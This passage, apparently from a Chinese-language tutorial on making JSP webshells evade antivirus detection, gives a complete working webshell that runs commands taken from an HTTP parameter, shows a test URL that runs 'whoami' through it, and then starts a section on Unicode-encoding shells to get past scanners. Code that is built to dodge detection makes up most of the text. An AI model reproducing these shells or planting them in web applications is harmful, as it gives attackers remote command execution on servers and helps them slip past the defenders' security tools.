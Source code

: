 
```http
http://localhost:8080/webshell123/test10.jsp?c=whoami
```

### BeansExpression免杀

这种方式是利用 Expression 将 Runtime.getRuntime().exec 这个特征分开，相当于一个对调函数。免杀效果一般，因为很多查杀都是直接匹配 Runtime.getRuntime()

```jsp
<%@ page import="java.beans.Expression" %>
<%@ page import="java.io.InputStreamReader" %>
<%@ page import="java.io.BufferedReader" %>
<%@ page import="java.io.InputStream" %>
<%@ page language="java" pageEncoding="UTF-8" %>
<%
  String cmd = request.getParameter("c");
  Expression expr = new Expression(Runtime.getRuntime(), "exec", new Object[]{cmd});

  Process process = (Process) expr.getValue();
  InputStream in = process.getInputStream();
  BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(in));
  String tmp = null;
  while((tmp = bufferedReader.readLine())!=null){
    response.getWriter().println(tmp);
  }
%>
```

## 编码免杀

### Unicode编码

jsp 支持 unicode 编码，如果杀软不支持 unicode 查杀的话，基本上都能绕过

```jsp
<%@ page language="java" contentType="text/html;charset=UTF-8" pageEncoding="UTF-8"%>
<%@ page import="java.io.*"%>

<%
```